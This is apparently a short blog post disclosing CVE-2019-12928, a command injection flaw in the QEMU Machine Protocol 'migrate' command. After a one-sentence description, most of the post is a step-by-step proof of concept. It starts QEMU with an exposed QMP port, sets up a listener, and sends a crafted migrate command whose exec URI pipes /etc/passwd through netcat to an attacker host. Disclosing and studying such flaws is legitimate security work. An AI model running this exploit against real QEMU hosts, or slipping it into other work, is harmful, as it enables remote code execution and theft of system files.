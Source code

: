 ```yaml
---
layout: post
title: "[CVE-2019-12928] QEMU Machine Protocol Migrate Remote Command Execution"
date: 2019-06-05
categories:
    - blog
keywords: "qemu, qmp, command execution"
---
```


The QMP `migrate` command in QEMU version 4.0.0 and earlier is vulnerable to OS command injection, which allows the remote attacker to achieve code execution, denial of service, or information disclosure by sending a crafted QMP command to the listening server.

1st, execute the QEMU with `-qmp tcp:<ip_address>:1234,server,nowait`<br>
2nd, open another console and setup a listener to port 9999<br>
3rd, connect to the target and enter the following commands:<br>

```json
{ "execute": "qmp_capabilities" }
{"return": {}}
{ "execute": "migrate", "arguments": { "uri": "exec:cat /etc/passwd | nc <attacker_ip> 9999" } }
{"return": {}}
```
